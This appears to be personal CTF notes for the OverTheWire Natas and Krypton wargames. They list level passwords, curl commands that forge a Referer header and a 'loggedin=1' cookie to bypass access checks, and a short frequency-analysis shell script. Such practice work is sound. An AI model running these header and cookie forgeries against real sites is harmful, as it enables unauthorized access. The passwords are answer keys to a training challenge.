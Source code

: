 ```
ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi
natas3
sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
natas4
Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
natas5(curl -H "referer:http://natas5.natas.labs.overthewire.org/" -u natas4 natas4.natas.labs.overthewire.org)
iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
natas6(curl -b "loggedin=1" -u natas5 natas5.natas.labs.overthewire.org)
aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
natas7
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
natas8(查看源码)
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
natas9(用php代码反向编码，由于运行php命令需要php环境，方便的方法是在线php工具，网上有很多)
W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl
natas10()
nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
natas11
U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK
declare -i x y1 y2 y3

d=`mktemp -d`

echo $d

 

awk '{ for(x=1;x<=NF;x=x+1)print $x }' /krypton/krypton3/found1 >> $d"/found1"

awk '{ for(x=1;x<=NF;x=x+1)print $x }' /krypton/krypton3/found2 >> $d"/found2"

awk '{ for(x=1;x<=NF;x=x+1)print $x }' /krypton/krypton3/found3 >> $d"/found3"

 

sort $d"/found1" | uniq -c |sort > $d"/found11"

sort $d"/found2" | uniq -c |sort > $d"/found12"

sort $d"/found3" | uniq -c |sort > $d"/found13"

exit 0
-----------------------------------------------

KRYPTON

Krypton1
Krypton2
ROTTE
Krypton3
CAESARISEASY

